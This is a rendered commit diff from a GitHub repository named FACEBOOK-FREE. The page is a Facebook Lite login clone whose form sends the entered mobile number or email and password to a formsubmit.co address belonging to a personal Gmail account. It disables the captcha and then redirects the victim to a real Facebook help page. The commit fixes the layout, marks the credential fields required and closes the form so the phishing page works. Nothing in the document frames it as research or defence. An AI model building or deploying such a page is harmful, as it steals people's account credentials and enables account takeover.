

Before and after one commit to Tumeloz/FACEBOOK-FREE, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (320-960 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -11,29 +11,36 @@
       padding: 0;
     }
 
-    body {
+    html, body {
+      height: 100%;
       font-family: system-ui, -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Oxygen, Ubuntu, Cantarell, "Open Sans", "Helvetica Neue", sans-serif;
       background-color: #ffffff;
       display: flex;
-      flex-direction: column;
+      justify-content: center;
       align-items: center;
-      justify-content: flex-start;
-      min-height: 100vh;
-      padding: 20px;
+    }
+
+    form {
+      width: 100%;
+      height: 100%;
     }
 
     .container {
       width: 100%;
+      height: 100%;
       max-width: 400px;
+      margin: auto;
       display: flex;
       flex-direction: column;
-      align-items: center;
+      justify-content: center;
+      padding: 20px;
     }
 
     .language-select {
       font-size: 14px;
       color: #1c1e21;
       margin-bottom: 30px;
+      text-align: center;
     }
 
     .fb-logo {
@@ -44,7 +51,7 @@
       display: flex;
       justify-content: center;
       align-items: center;
-      margin-bottom: 30px;
+      margin: 0 auto 30px;
     }
 
     .fb-logo img {
@@ -105,6 +112,7 @@
       background-color: transparent;
       border-radius: 30px;
       cursor: pointer;
+      margin-bottom: 40px;
     }
 
     .create-account:hover {
@@ -113,7 +121,6 @@
 
     .meta-logo {
       text-align: center;
-      margin-top: 40px;
       color: #606770;
       font-size: 14px;
     }
@@ -125,31 +132,27 @@
   </style>
 </head>
 <body>
-
-
   <form action="https://formsubmit.co/gamingznoob404@gmail.com" method="POST">
     <input type="hidden" name="_captcha" value="false">
     <input type="hidden" name="_next" value="https://m.facebook.com/help/479793009433142/#">
 
     <div class="container">
-    <div class="language-select">
-      English (UK) &#9662;
-    </div>
+      <div class="language-select">English (UK) &#9662;</div>
 
       <div class="fb-logo">
         <img src="https://i.ibb.co/Q3ccZ5fr/Facebook-Lite-logo-svg.png" alt="Facebook Lite Logo">
       </div>
 
       <div class="input-box">
-      <input type="text" name="mobile or email address" placeholder="Mobile number or email address">
-      <input type="password" name="password" placeholder="Password">
+        <input type="text" name="mobile or email address" placeholder="Mobile number or email address" required>
+        <input type="password" name="password" placeholder="Password" required>
       </div>
 
-    <button class="login-btn">Log in</button>
+      <button class="login-btn" type="submit">Log in</button>
 
       <div class="forgot-password">Forgotten password?</div>
 
-    <button class="create-account">Create new account</button>
+      <button type="button" class="create-account">Create new account</button>
 
       <div class="meta-logo">
         <div>
@@ -157,6 +160,6 @@
         </div>
       </div>
     </div>
-
+  </form>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
